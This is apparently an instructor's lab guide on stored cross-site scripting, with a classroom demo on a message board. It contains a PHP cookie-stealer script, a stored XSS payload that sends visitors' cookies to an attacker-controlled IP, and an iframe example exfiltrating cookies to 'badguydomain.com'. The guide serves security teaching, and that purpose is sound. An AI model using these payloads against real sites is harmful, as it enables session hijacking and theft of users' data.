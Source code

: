 Stored XSS can be more dangerous because it does not require a user to click on a malicious link,
but instead to simply visit the trusted website. Stored XSS can be used to keylog, gather session
information, or deploy malicious payloads to visiting users.

An example of a stored XSS might be one that creates an iframe or image and adds it in the
background of the page. The iframe could load a URL such as "http://badguydomain.com/?" +
document.cookie and exfiltrate all of the visitor’s cookie information.

**DEMO: Stored XXS**

1. Utilize the message board hosted on the Demo-Web_Exploit_upload: [http://<float](http://<float)
    ip>/chat/messageb.php
2. SSH into the demo-web-exploit-sql and cd into /var/www/html. This demo has a PHP script setup
    to grab cookies as they are redirected (Cookie_Stealer1.php) and writes into 'cookiefile.txt'. You
    may walk the students through the php if wanted.

```
<?php
$cookie = $_GET["username"];
$steal = fopen("/var/www/html/cookiefile.txt", "a+");
fwrite($steal, $cookie ."\n");
fclose($steal);
?>
```
1. On the message board enter a name and then input the following javascript in the message field
    and submit.

```
 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" +
document.cookie;</script>
```
2. Show the students in the URL how we are redirected to our Cookie_Stealer page.


3. cat the cookiefile.txt file our demo-web-exploit-sql to show that we where able to grab cookie
    information.
4. To remove the stored XXS from sytem:

```
mysql
use messages;
select * from comments; # --- find the ID your script is in
delete from comments where id = <ID>
```
**Useful Javascript Components**

The typical "proof of concept" XSS attack is launching a simple alert:
<script>alert('XSS!');</script> This is because it’s simple, short, and provides instant feedback of
success. However, simply triggering an alert is not very useful from an attacker’s perspective.

_There are various objects that are accessible and controllable by javascript that make XSS valuable to an
attacker:_

- **Capturing Cookies** : the document.cookie object contains a string of all the cookies for the
    currently loaded webpage. If an attacker can exfiltrate this object to a remote server, he or she
    may be able to masquerade as the victim.
- **Capturing Keystrokes** : javascript allows for binding to keydown and keyup actions in order to
    log every keystroke that is pressed.
- **Capturing sensitive data** : Essentially anything on the page itself can be captured, such as
    credit card information, passwords, or other private information. An attacker can access the
    entire HTML source of the page in its current state with document.body.innerHTML.
